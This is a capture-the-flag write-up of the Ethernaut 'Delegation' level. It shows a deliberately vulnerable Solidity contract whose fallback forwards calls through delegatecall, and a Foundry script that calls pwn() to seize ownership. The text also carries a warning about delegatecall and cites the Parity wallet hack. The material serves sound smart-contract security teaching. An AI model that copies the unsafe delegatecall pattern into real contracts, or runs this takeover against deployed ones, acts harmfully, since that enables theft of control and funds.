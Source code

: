 # Level 6 - Delegation ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/6" %}

### Level Setup

{% hint style="info" %}
The goal of this level is for you to claim ownership of the instance you are given.

&#x20; Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
* Fallback methods
* Method ids
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Delegation.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```
{% endcode %}

### Exploit

The contract forwards any unmatched function calls through to the `Delegate` contract through the `fallback()` function. As `pwn()` is only on the `Delegate` contract, it's as simple as calling `pwn()` and having it execute the function on the `Delegate` instead of the `Delegation` contract.

1. Call `pwn()`.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-6

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level6.s.sol" %}

{% code title="script/Level6.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

interface IDelegate {
    function pwn() external;
}

// ================================================================
// │                        LEVEL 6 - DELEGATION                  │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IDelegate targetContract = IDelegate(targetContractAddress);

        vm.startBroadcast();
        // Using interface:
        targetContract.pwn();

        // Without interface:
        // targetContractAddress.call(abi.encodeWithSignature("pwn()"));

        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.
{% endhint %}

### Notes

* [delegatecall](https://eip2535diamonds.substack.com/p/understanding-delegatecall-and-how) in Solidity

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_6_Delegation.md" %}
